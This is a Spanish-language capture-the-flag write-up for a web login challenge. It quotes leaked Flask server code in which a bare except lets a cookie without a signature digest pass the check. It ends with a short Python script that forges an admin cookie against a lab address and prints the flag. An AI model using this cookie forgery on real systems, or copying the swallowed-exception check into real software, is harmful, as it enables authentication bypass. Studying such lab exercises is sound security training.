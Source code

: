 # Ejercicio 6

Accediendo a http://143.0.100.198:5001/, vemos un sitio para logearnos. Probamos los ataques basicos (admin: admin, sqlinjection, y demas)

Despues use el programa ZAP para mirar los links de la pagina, y encontre que podia acceder a `robots.txt`, oh sorpresa nos muestra un codigo en python que pareciera ser del servidor

Analizando el login vemos por ejemplo:

```
@app.route("/login", methods=["POST"])
def login():

    user = request.form.get("user", "")
    password = request.form.get("password", "")

    if (
        user != "hacker"
        or hashlib.sha512(bytes(password, "ascii")).digest()
        != b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
    ):
        return abort(403)
    return do_login(user, password, True)
```

Ok, solo podemos acceder con el user `hacker` y ademas tenemos que pasar una password que genere tal digesto... Habra algo mas facil? Supongamos que estamos logeados, como hace el servidor para darnos datos?


```
@app.route("/")
def index():

    ok, cookie = load_cookie()
    if not ok:
        return abort(403)

    return render_template(
        "index.html",
        user=cookie.get("user", None),
        admin=cookie.get("admin", None),
        flag=FLAG,
    )
```

Bien, entonces el servidor intenta loader una cookie, y se fija si puede o no. Si no puede, 403, sino nos devuelve la pagina con seteando la FLAG, user y admin. Podremos usar la cookie? Veamos como se carga

```
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:
        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Empezamos con una cookie vacia, cargamos la cookie 'auth', desempacamos lo que tenga adentro y nos guardamos ese JSON. Luego de esto tomamos la entrada 'digest', y si no la tenemos? KeyError!! Salimos del `try-except`, devolvemos (True, cookie) Nice

Entonces la estrategia es clara, aqui dejo el codigo que lo lleva a la practica

```
import requests, json, binascii

cookies = {'user': 'pepe', 'admin': True}

cookie_value = binascii.hexlify(json.dumps(cookies).encode('utf8'))

real_cookie = {'auth': cookie_value.decode('utf8')}

r = requests.get('http://143.0.100.198:5001/', cookies=real_cookie)

print(r.text)
```

FLAG = flag{ThIs_Even_PaSsED_c0d3_rewVIEW}